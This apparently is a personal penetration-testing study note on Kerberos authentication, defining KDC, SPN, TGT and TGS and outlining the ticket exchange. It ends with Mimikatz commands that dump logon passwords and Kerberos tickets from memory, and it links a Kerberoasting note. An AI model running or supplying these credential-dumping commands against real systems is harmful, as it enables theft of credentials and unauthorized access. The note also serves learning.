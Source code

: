 # Kerberos Authentication
KDC -> Key distribution center
SPN -> Service principal name
TGT -> Ticket granting ticket
TGS -> Ticket granting service

Kerberos is stateless.
- Client negotiates authentication using encrypted timestamp with key distribution center
- Client requests TGT to KDC
- Client receives TGT from KDC
- Client requests TGS using TGT and SPN of service
- Client receives TGS for service

To do this automatically:
- [[Kerberoasting]]

## Cached credential storage and retrieval
Mimikatz.exe can be used to achieve this
```
mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::tickets

```


